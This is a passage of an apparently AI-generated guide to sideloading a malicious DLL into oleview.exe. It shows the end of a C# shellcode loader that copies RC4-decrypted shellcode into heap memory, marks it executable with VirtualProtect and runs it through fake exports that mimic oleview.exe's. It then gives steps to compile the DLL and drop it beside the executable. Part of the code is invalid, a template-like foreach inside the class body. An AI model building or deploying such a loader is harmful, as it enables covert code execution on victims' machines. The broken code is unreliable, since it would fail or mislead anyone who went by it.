 ```csharp
            var execute = Marshal.GetDelegateForFunctionPointer<Action>(addr);
            execute();
        }

        // Mimic the exported functions from oleview.exe
        // Each function simply calls Jeopardy()
${
    foreach (var function in new[] { "Function1", "Function2", "Function3" }) // Replace with actual function names
    {
        $"        [DllExport(\"{function}\", CallingConvention = CallingConvention.StdCall)]\n" +
        $"        public static void {function}() {{ Jeopardy(); }}"
    }
}
    }
}
```

### **Step 4: Customize and Compile the C# Program**

1. **Add Shellcode**:
   - Insert your RC4-decrypted shellcode into the `shellcode` byte array within the `Jeopardy` method.

2. **Compile the C# Program**:
   - Compile the C# program using the .NET SDK:
     ```bash
     dotnet build
     ```

3. **Deploy the DLL**:
   - Place the compiled DLL in the same directory as `oleview.exe`.

### **Explanation of the Code**:

- **CsWin32 Usage**:
  - CsWin32 automatically generates the P/Invoke signatures for `HeapCreate`, `HeapAlloc`, and `VirtualProtect` based on the Windows API. This is configured via the `NativeMethods.txt` file.
  
- **Jeopardy Method**:
  - **HeapCreate**: Allocates a heap in the current process.
  - **HeapAlloc**: Allocates memory on the created heap for the shellcode.
  - **VirtualProtect**: (Optional) Changes the memory protection to allow execution if the shellcode requires it.
  - **Marshal.Copy**: Copies the shellcode to the allocated memory.
  - **Execute**: Executes the shellcode by obtaining a delegate for the allocated memory.

### **Final Notes**:

- **CsWin32 Source Generator**: By using CsWin32, you avoid manually writing `DllImport` statements, reducing errors and making the code cleaner.
- **Function Export**: `DllExport` is used to ensure that `oleview.exe` recognizes and loads the functions from your DLL.
- **Ethical Use**: As always, ensure this technique is only used in environments where you have explicit permission, such as during authorized penetration tests.

This approach enables you to sideload a DLL into `oleview.exe`, with each function call leading to the execution of your injected shellcode.